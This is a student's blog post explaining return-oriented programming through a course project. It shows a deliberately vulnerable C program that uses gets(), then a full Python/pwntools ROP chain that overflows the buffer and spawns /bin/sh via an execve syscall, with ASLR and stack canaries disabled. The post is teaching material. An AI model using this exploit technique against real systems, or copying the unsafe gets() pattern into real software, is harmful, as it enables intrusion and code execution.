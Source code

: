 ```yaml
---
layout: post
title:  "A rop project"
categories: [project]
tags: [ROP]
---
```


In the last semester i attended the computer security course, and since i had to do a project i made a simple program to exploit with a rop chain in order to explain how return oriented programming works.
Here i will explain everything about.
During my presentation i started talk about the fact that during the excution of a program the memory is under the constraint Write XOR Execute. Part of the memory that i can write i cannot execute and viceversa.
And so is here where Return Oriented programming come in action, with this technique when a program is vulnerable for example to a buffer overflow i can still execute malicious code even if i can't upload the shellcode directly in the stack.
Supposing to work on a x86 architecture, i have on the stack the base pointer and after that the return address of the function (see the image below).

![My helpful screenshot](/assets/stack1.png)

Here's the code that i wanted to exploit:
{% highlight c %}
include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

void r()
{
	char s[30];
	gets(s);
}

void ouch()
{
	printf("%s\n","hi!!");
}

int main()
{
	r();
	//printf("%s\n",s);	
	printf("%s\n","end!");
	return 0;
}
{% endhighlight %}

So the goal is to overwrite the return address, and consequentially what came after that with addresses of memory that contain little piece of code that terminate with the instruction ret and so on. So i search inside the program this little pieces of code that are called gadget. In this way after one of this little piece of code terminate is execution the next instruction that will be executed will be the one at address2 see the image below.

![My helpful screenshot](/assets/stack2.png)

And so on with this trick is possible execute a shell.
To do all of this i used Radare2(that allow me to search gadget inside the code) and pwntools(that simplify me the construction of the exploit).
All of this was did whit ASLR disabled and no stack canaries, that are two of contromeasures used to avoid this kind of attack.
To do all of this i had to search the right gadgets to execute the instructions and spawn /bin/sh.
The parameters to exec /bin/sh are:
- eax = 0xb
- ebx = address of memory of string "/bin/sh"
- ecx = pointer to pointer of string "/bin/sh"
- edx = env variable but that can be set to 0 with no problem

To simplify things i used the string "/bin//sh" because on linux is ignored the double slash.
So i searched the gadgets.
I found pop eax, pob ebx, and pop edx with no problems, the only one problem was for pop ecx see below: (but i decided to maintan it in order to find a way to patch it).

![My helpful screenshot](/assets/pop_ecx.png)

After that i search the address of the bss in order to have a place to write /bin//sh.
And after that i search the write-what-where gadget that allow me to write at a specific address a value with the use of two register. In this way using the pop instructions i could set value to register and with this gadget write the memory (the bss).

![My helpful screenshot](/assets/write_mem.png)

To patch the pop ecx i used a pop esi since in the gadget above there was or cl,byte[esi] in order to make the ecx value to not change. NOTE: that this work only because the specific value in the memory, proprably with ASLR enabled i should have to change to make this work.
After that i search for xor edx, edx. And in the end i found xor eax, eax and one last instruction that increase the al register, so i called it the number of times to reach the number of the syscall (0xb).
And in the end the int 0x80 to make the syscall.
To clarify i had to add an initial padding to fill the buffer.
In the end once i execute my program i had this:

![My helpful screenshot](/assets/PoC.png)

the ";" is to mantaint the interaction, anyway there is a method in pwntools that i didn't know at the time.
Here's the code of the final exploit.
{% highlight python %}
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *

DIM_BUF = 42

PAD = "A" * DIM_BUF

pop_eax =  0xf7ffafb5
pop_ebx =  0xf7ff2c21 
pop_ecx = 0xf7ff82f9 
                
pop_edx =   0xf7ff8c15 

pop_esi = 0xf7ff2949

shell1 = "/bin"
shell2 = "//sh"

mem_to_write = 0x56557020
write_the_mem = 0xf7feb47b # mov dword[edx], eax

zero_place = 0x56557040
#copy_zero_to_edx = 0xf7ff2f05

#mov_ecx = 0xf7ff2f19

xor_edx = 0xf7ff0670 
#mov_eax_ff = 0xf7ff1633 
xor_eax = 0xf7ff2534

inc1_eax =  0xf7fd9a96 
int_80 = 0xf7ff2195 

buf = PAD 

buf += p32(pop_edx) 
buf += p32(mem_to_write)
buf += p32(pop_eax)
buf += "/bin"
buf += p32(write_the_mem)
buf += p32(pop_edx) 
buf += p32(mem_to_write + 4)
buf += p32(pop_eax)
buf += "//sh"
buf += p32(write_the_mem)
buf += p32(pop_eax) 
buf += p32(mem_to_write)
buf += p32(pop_edx) 
buf += p32(mem_to_write + 12) 
buf += p32(write_the_mem)
buf += p32(pop_esi)
buf += p32(mem_to_write + 12)
buf += p32(pop_ecx)
buf += p32(mem_to_write + 12)
buf += p32(xor_edx)
buf += p32(mem_to_write) 
buf +="AAAAAAAA" #raw data
buf += p32(xor_eax) 

for i in range(11):
    buf += p32(inc1_eax) 

buf += p32(int_80) 

print(buf)

{% endhighlight %}
Maybe all of this is over simplified and not to much clear, i decided to not explain somethings in detail but i thing that in general the basic idea is ok. However this was my first article so i have a very loooooong road to improve my infosec (and also writing) skills.



